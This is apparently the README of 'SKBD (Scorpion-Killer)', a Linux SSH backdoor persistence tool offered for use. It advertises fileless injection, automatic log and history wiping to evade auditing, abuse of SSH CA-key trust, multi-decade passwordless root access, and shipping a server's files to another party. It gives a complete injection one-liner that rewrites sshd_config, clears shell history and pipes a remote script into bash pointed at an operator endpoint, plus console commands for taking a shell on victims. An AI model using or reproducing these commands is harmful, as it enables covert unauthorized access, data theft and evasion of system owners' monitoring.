








# SKBD (Scorpion-Killer)


**Linux-SSH Backdoor Injection Persistence Control Tool**

1. **Fileless Automated Backdoor Injection**  
   Using a `curl` request, this tool automatically performs the backdoor injection without leaving any significant traces on the system.

2. **Automatic Log and Trace Removal**  
   During the backdoor injection process, the tool automatically clears related logs and traces, ensuring no alerts are triggered during monitoring and auditing.

3. **CA Certificate Bypass**  
   By utilizing the CA certificate mechanism, this tool can bypass SSH server certificate validation checks, further enhancing stealth and persistence.

4. **27-Year SSH Backdoor**  
   The injected SSH backdoor can last for up to 27 years (9999 days), ensuring long-term access and control over the system.

5. **Multiple Passwordless Users for SSH Access**  
   Supports multiple SSH users who can log in independently without passwords, providing increased flexibility and stealth.

6. **Portability and Data Migration**  
   The tool allows you to package all the server’s machine files and send them to another user. This enables seamless migration, allowing for control to be deployed across different systems.

---


# Install


`$ git clone https://github.com/MartinxMax/skbd.git;cd skbd`
`$ python3 -m venv skbd`
`$ sudo apt install -y libxcb-xinerama0 libxcb-cursor0 libxcb-icccm4 libxkbcommon-x11-0 libgl1 libqt5gui5t64`
`$ source skbd/bin/activate`
`(skbd)$ pip install --upgrade pip`
`(skbd)$ pip install -r requirements.txt`


# SKBD Usage

**PS: This script must be executed with ROOT privileges.**

1. Start the server (API):

`(skbd)$ python3 skbd.py`



> endpoint: https://192.168.0.115:9191

2. Start the server (Command execution):  
   **PS**: `skbdexec.py` can be started at any time.

`(skbd)$ python3 skbdexec.py`



3. Inject the skbd backdoor into the client

`$ sed -i "/TrustedUserCAKeys \/etc\/.system\//d" /etc/ssh/sshd_config;rm -rf /etc/.system;service ssh reload;/usr/sbin/sshd -D;history -c;curl https://raw.githubusercontent.com/MartinxMax/skbd/refs/heads/main/skbd.sh |bash -s -- -e 'https://<skbd_ip>:9191' -l '<Machine_Internet_IP, optional if not available>' `



4. Access the client's shell from the server (Command execution):

`SKBD # info`



`SKBD # use 1`

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# show`



```
+-------------------------------------------+-------------------------------------------+
| Configuring Machine: f6b50eecbeca4b61a7e8932c3e9cf9f2    |
+-------------------------------------------+-------------------------------------------+
| Parameter          | Value                            |
+-------------------------------------------+-------------------------------------------+
| users              | root,postgres,map                 | (Editable) |
| ips                | 192.168.0.111,                    | (Editable) |
| sn                 | f6b50eecbeca4b61a7e8932c3e9cf9f2  | (Editable) |
+-------------------------------------------+-------------------------------------------+
```

This list displays the users (`root,postgres,map`) available for SSH login on the client. You can change the logged-in user session by using the command `set user map`.

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# set user root`

Final login parameters:

```SH
+-------------------+-------------------+
| user: root        |
| ip: 192.168.0.111 |
| port: 22          |
+-------------------+-------------------+
```

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# run`



# SKBD Map Usage

PS: This map supports backdoor access control for public-facing hosts only. 
Backdoor hosts located in private (LAN) networks cannot be controlled or viewed.

`$ chmod 600 ./auth_protect/id_rsa`

`(skbd)$ python skbd_map.py`





